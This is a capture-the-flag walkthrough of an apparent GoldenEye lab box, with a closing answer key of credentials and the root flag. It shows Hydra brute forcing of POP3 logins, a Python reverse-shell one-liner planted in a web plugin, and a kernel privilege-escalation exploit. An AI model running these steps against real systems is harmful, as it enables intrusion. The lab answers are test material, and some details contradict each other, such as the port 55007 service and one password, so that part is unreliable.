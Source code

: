 # **Golden-Eye Writeup by Brandon Gerber**

---

## **Task 1: Intro and Enumeration**

### **1.1 Nmap Scan**

I began by scanning the target machine using `nmap` to identify open ports:

nmap -n -v -sT -p- -T5 IP




This revealed **4 open ports**.

### **1.2 Source Code Analysis**

Next, I checked the **source code of the website** and found some comments:

// contacting a user named boris // left encoded password // mentioned another person named Natalya




Based on this, I assumed "boris" was a **username**, and I found an encoded password in the comments:  
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

### **1.3 Decoding Password**

Using an HTML decoder, I decoded it to: **InvincibleHack3r**.  
I realized I could have just used `dcode<pw>`.

---

## **Task 2: It’s Mail Time**

### **2.1 Login via Telnet**

I tried logging in via **telnet** to the **POP3 service on port 55007**, but the credentials failed. The next hint was to use **Hydra** to crack the password:

hydra -l boris -P <path_to_password_list> <IP> -s 55007 pop3

markdown


This successfully found the password:  
**Password: secret1!**

### **2.2 Retrieving Emails**

I then logged in via telnet:

telnet <IP> 55007 user boris pass secret1!




After logging in, I listed and retrieved the emails using `retr <email num>`, revealing another username, **"Xenia."**

### **2.3 Cracking Xenia’s Password**

Using Hydra again, I cracked Xenia’s password:

hydra -l Xenia -P <path_to_password_list> <IP> -s 55007 pop3

vbnet


The password was **bird**. After logging into her account, I found her new password: **RCP90rulez**.

### **2.4 Accessing the Website**

This led me to the next hint regarding the **severnaya-station.com** website. I added it to my `/etc/hosts` file to access it:

nano /etc/hosts

Add the line
<IP> severnaya-station.com




I visited **http://severnaya-station.com/gnocertdir/** and used Xenia's credentials to log in:

user: Xenia pass: RCP90rulez!




Under **"My Profile,"** I found a message from **Dr. Doak** revealing his creds:

hydra -l Doak -P <path_to_wordlist> <IP> -s 55007 pop3




Password: **goat**

Using telnet again, I found his password in an email: **4England!**

---

## **Task 3: Gaining Access**

### **3.1 Logging in with Dr. Doak's Credentials**

Logging in with Dr. Doak's credentials (`dr_doak`, `4England!`), I explored his private files and discovered a file named **s3cret.txt**, which mentioned the location of an image at `/dir007key/for-007.jpg`. I downloaded the image using `wget` and extracted hidden information with `exiftool`. Inside the description field, I found a **Base64 string**:

eFdpbnRlckE50TV4IQ==




Decoded, it revealed: **xWinter1995x!**

user: admin pass: xWinter1995x!




---

## **Task 4: Exploitation**

### **4.1 Creating a Reverse Shell**

I created a **reverse shell** using Python:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>", <Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])'




I inserted this script into the spell check plugin on the website, then started a listener using `pwncat`:

pwncat --listen -p 9999




This granted me a shell on the system. The kernel version was **3.13.0-32-generic**, and I found an **overlayfs privilege escalation exploit** (https://www.exploit-db.com/exploits/37292).

### **4.2 Compiling and Executing the Exploit**

I compiled and executed the exploit:

upload exploit.c /tmp cd /tmp cc exploit.c -o exploit ./exploit




This gave me **root access**. I navigated to the `/root` directory and found the final flag:

cat flag.txt




**Root flag: 568628e0d993b1973adc718237da6e93**

---

## **ANSWERS**

---

### **Task 1:**

- **How many ports are open?**  
  **Answer:** 4

- **Who needs to update their default password?**  
  **Answer:** boris

- **What's their password?**  
  **Answer:** InvincibleHack3r

---

### **Task 2:**

- **What's their new password?**  
  **Answer:** secret1!

- **What services is configured to use port 55007?**  
  **Answer:** telnet

- **What user can break Boris' codes?**  
  **Answer:** natalya

- **What user can you login as on the severnaya-station.com site?**  
  **Answer:** xenia

- **What was Doak's password?**  
  **Answer:** goat

- **What's Dr. Doak's password?**  
  **Answer:** 4England!

---

### **Task 3:**

- **What's the kernel version?**  
  **Answer:** 3.13.0-32-generic

- **What is the root flag?**  
  **Answer:** 568628e0d993b1973adc718237da6e93
